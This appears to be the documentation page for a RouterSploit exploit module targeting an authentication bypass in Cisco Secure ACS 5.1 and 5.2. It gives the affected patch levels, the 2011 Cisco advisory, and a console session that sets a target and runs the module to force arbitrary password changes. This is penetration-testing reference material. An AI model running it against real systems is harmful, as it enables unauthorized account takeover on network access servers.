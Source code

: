 # Cisco Secure ACS Unauthorized Password Change

## Description
Module exploits an authentication bypass issue which allows arbitrarypassword change requests to be issued for any user in the local store.Instances of Secure ACS running version 5.1 with patches 3, 4, or 5 as wellas version 5.2 with either no patches or patches 1 and 2 are vulnerable.

## Authors
* Jason Kratzer <pyoor[at]flinkd.org> # vulnerability discovery & metasploit module
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.cisco.com/en/US/products/csa/cisco-sa-20110330-acs.html](http://www.cisco.com/en/US/products/csa/cisco-sa-20110330-acs.html)

## Vulnerable devices
* Cisco Secure ACS version 5.1 with patch 3, 4, or 5 installed and without patch 6 or later installed
* Cisco Secure ACS version 5.2 without any patches installed
* Cisco Secure ACS version 5.2 with patch 1 or 2 installed and without patch 3 or later installed

## Usage
```
rsf > use exploits/cisco/secure_acs_bypass
rsf (Cisco Secure ACS Unauthorized Password Change) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address
   port       443                  Target Port


Module options:

   Name         Current settings      Description
   ----         ----------------      -----------
   username                           Username to use
   path         /PI/services/UCP/     Path to UCP WebService
   password                           Password to use


rsf (Cisco Secure ACS Unauthorized Password Change) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Cisco Secure ACS Unauthorized Password Change) > run
[*] Running module...
```
